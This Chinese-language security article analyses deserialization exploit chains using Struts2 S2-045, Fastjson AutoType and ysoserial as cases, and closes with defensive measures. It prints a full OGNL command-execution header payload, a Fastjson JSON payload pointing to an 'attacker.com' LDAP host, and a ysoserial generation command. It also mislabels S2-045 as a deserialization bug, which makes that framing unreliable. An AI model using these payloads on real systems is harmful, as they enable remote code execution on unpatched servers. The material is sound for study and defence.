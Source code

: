 ### 反序列化漏洞链构造的案例分析

反序列化漏洞是Web安全领域中一种常见且危害性极大的漏洞类型。它通常发生在应用程序将序列化数据（如JSON、XML或二进制格式）反序列化为对象时，攻击者通过构造恶意序列化数据，利用反序列化过程中的逻辑缺陷或漏洞，执行任意代码或绕过安全机制。本文将分析真实世界中的反序列化漏洞链构造案例，并探讨其攻击原理和防御策略。

---

### 1. 反序列化漏洞链构造的基本原理

反序列化漏洞链构造的核心在于利用目标应用程序中存在的多个可被串联利用的漏洞点，通过精心构造的序列化数据，触发一系列漏洞，最终实现攻击目标。以下是反序列化漏洞链构造的关键步骤：

1. **漏洞点识别**：分析目标应用程序中可能存在的反序列化入口点，例如API接口、文件上传、数据传输等。
2. **依赖链分析**：识别反序列化过程中涉及的类、方法和依赖库，寻找可利用的漏洞点。
3. **恶意数据构造**：根据目标应用程序的反序列化逻辑，构造恶意序列化数据，触发漏洞链。
4. **攻击执行**：通过漏洞链实现任意代码执行、权限提升或数据泄露等攻击目标。

---

### 2. 案例分析：Apache Struts2 S2-045 漏洞

Apache Struts2 是一个广泛使用的Java Web框架，其S2-045漏洞是一个典型的反序列化漏洞链构造案例。

#### 漏洞背景
S2-045漏洞存在于Struts2的Jakarta Multipart解析器中，攻击者可以通过构造恶意的Content-Type头，触发反序列化漏洞，最终实现远程代码执行（RCE）。

#### 漏洞链构造
1. **漏洞点识别**：Struts2在处理文件上传请求时，会解析Content-Type头，并将其传递给Jakarta Multipart解析器。
2. **依赖链分析**：Jakarta Multipart解析器在处理数据时，会调用OGNL（Object-Graph Navigation Language）表达式解析功能，而OGNL存在反序列化漏洞。
3. **恶意数据构造**：攻击者构造一个包含恶意OGNL表达式的Content-Type头，例如：
   ```
   Content-Type: ${(#_='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='whoami').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}
   ```
4. **攻击执行**：当服务器解析该请求时，恶意OGNL表达式会被执行，导致任意命令执行。

#### 影响与修复
S2-045漏洞影响范围广泛，攻击者无需认证即可利用该漏洞。Apache官方随后发布了修复版本，建议用户升级到Struts 2.3.32或2.5.10.1。

---

### 3. 案例分析：Fastjson反序列化漏洞

Fastjson是阿里巴巴开源的高性能JSON库，其反序列化漏洞是另一个典型的反序列化漏洞链构造案例。

#### 漏洞背景
Fastjson在反序列化过程中，默认支持通过`@type`指定目标类，攻击者可以通过构造恶意JSON数据，触发目标类中的危险方法。

#### 漏洞链构造
1. **漏洞点识别**：Fastjson在处理JSON数据时，会根据`@type`字段动态加载类。
2. **依赖链分析**：攻击者可以利用Fastjson的`AutoType`功能，加载恶意类并触发其构造函数或方法。
3. **恶意数据构造**：构造包含恶意类的JSON数据，例如：
   ```json
   {
     "@type": "com.sun.rowset.JdbcRowSetImpl",
     "dataSourceName": "ldap://attacker.com/Exploit",
     "autoCommit": true
   }
   ```
4. **攻击执行**：当Fastjson反序列化该JSON数据时，会加载`JdbcRowSetImpl`类，并触发其`setDataSourceName`方法，导致JNDI注入攻击。

#### 影响与修复
Fastjson反序列化漏洞影响广泛，攻击者可以通过构造恶意JSON数据实现远程代码执行。Fastjson官方随后禁用了`AutoType`功能，并建议用户升级到最新版本。

---

### 4. 案例分析：Java反序列化漏洞链（ysoserial工具）

ysoserial是一个用于生成Java反序列化漏洞利用链的工具，它展示了如何通过构造恶意序列化数据，利用目标应用程序中的漏洞链实现攻击。

#### 漏洞背景
Java应用程序在处理反序列化数据时，可能会加载恶意类并触发其危险方法。ysoserial通过分析常见的Java库（如Commons Collections、Spring、Groovy等），生成可利用的反序列化漏洞链。

#### 漏洞链构造
1. **漏洞点识别**：目标应用程序中存在反序列化入口点，例如RMI、HTTP请求等。
2. **依赖链分析**：ysoserial工具内置了多个漏洞链，例如`CommonsCollections`链，利用`InvokerTransformer`类实现任意代码执行。
3. **恶意数据构造**：使用ysoserial生成恶意序列化数据，例如：
   ```
   java -jar ysoserial.jar CommonsCollections5 "touch /tmp/pwned" > payload.ser
   ```
4. **攻击执行**：将生成的`payload.ser`发送给目标应用程序，触发反序列化漏洞，执行任意命令。

#### 影响与修复
Java反序列化漏洞链构造是一种常见的攻击手段，攻击者可以通过构造恶意序列化数据实现远程代码执行。防御措施包括禁用不必要的反序列化功能、使用白名单机制限制可反序列化的类等。

---

### 5. 防御策略

针对反序列化漏洞链构造，可以采取以下防御措施：
1. **禁用不必要的反序列化功能**：避免在应用程序中使用不安全的反序列化机制。
2. **使用白名单机制**：限制可反序列化的类，避免加载恶意类。
3. **升级依赖库**：及时更新应用程序中使用的第三方库，修复已知漏洞。
4. **输入验证与过滤**：对反序列化数据进行严格的验证和过滤，防止恶意数据注入。
5. **监控与日志分析**：监控应用程序的反序列化操作，及时发现异常行为。

---

### 总结

反序列化漏洞链构造是一种复杂且危害性极大的攻击手段，攻击者通过精心构造的序列化数据，利用目标应用程序中的多个漏洞点，实现远程代码执行、权限提升等攻击目标。通过分析真实世界中的反序列化漏洞案例，我们可以更好地理解其攻击原理和防御策略，从而提升Web应用程序的安全性。

---

*文档生成时间: 2025-03-11 17:59:53*






















